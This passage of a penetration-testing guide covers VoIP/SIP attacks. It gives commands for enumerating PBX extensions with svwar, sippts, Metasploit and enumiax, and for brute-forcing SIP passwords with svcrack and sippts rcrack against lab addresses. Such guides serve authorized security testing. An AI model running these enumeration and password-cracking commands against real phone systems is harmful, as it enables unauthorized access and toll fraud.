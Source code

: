 ```bash
svwar 10.10.0.10 -p5060 -e100-300 -m REGISTER
```

- **`SIPPTS exten`** from [**sippts**](https://github.com/Pepelux/sippts)**:** SIPPTS exten identifies extensions on a SIP server. Sipexten can check large network and port ranges.

```bash
sippts exten -i 10.10.0.10 -r 5060 -e 100-200
```

- **metasploit**: You can also enumerate extensions/usernames with metasploit:

```
auxiliary/scanner/sip/enumerator_tcp  normal  No     SIP Username Enumerator (TCP)
auxiliary/scanner/sip/enumerator      normal  No     SIP Username Enumerator (UDP)
```

- **`enumiax` (`apt install enumiax`): enumIAX** is an Inter Asterisk Exchange protocol **username brute-force enumerator**. enumIAX may operate in two distinct modes; Sequential Username Guessing or Dictionary Attack.

```bash
enumiax -d /usr/share/wordlists/metasploit/unix_users.txt 10.10.0.10 # Use dictionary
enumiax -v -m3 -M3 10.10.0.10
```

## VoIP Attacks

### Password Brute-Force - online

Having discovered the **PBX** and some **extensions/usernames**, a Red Team could try to **authenticate via the `REGISTER` method** to an extension using a dictionary of common passwords to brute force the authentication.

> [!CAUTION]
> Note that a **username** can be the same as the extension, but this practice may vary depending on the PBX system, its configuration, and the organization's preferences...
>
> If the username is not the same as the extension, you will need to **figure out the username to brute-force it**.

- **`svcrack`** from SIPVicious (`sudo apt install sipvicious`): SVCrack allows you to crack the password for a specific username/extension on a PBX.

```bash
svcrack -u100 -d dictionary.txt udp://10.0.0.1:5080 #Crack known username
svcrack -u100 -r1-9999 -z4 10.0.0.1 #Check username in extensions
```

- **`SIPPTS rcrack`** from [**sippts**](https://github.com/Pepelux/sippts)**:** SIPPTS rcrack is a remote password cracker for SIP services. Rcrack can test passwords for several users in different IPs and port ranges.

```bash
sippts rcrack -i 10.10.0.10 -e 100,101,103-105 -w wordlist/rockyou.txt
```
